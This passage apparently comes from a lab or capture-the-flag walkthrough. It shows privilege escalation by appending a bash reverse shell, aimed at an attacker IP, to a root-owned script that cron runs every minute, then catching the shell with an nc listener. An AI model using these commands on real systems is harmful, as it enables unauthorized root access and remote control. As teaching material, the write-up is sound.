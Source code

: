 ![thermo](img/thermo.PNG)

> The hint here is that the script will be executed every minute. So there is a cron job set up on the server. Also the permissions of the file show that it is owned by root. So the simplest thing we can do here is add a reverse shell code into the script. You can find the reverse shell code [here](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

```shell
echo "bash -i >& /dev/tcp/192.168.1.5/4444 0>&1" >> thermostat_set_temp.sh
```
> NOTE: 192.168.1.5 is the attacker's IP (Kali Linux). <br>
Now we listen on port 4444 for connection. We'll wait for a minute so that the thermostat\_set\_temp is run by cron and after that we'll get the reverse shell

```shell
nc -lvp 4444
```

> WE ARE ROOT! 
<br>
![root](img/root.PNG)

<br> 
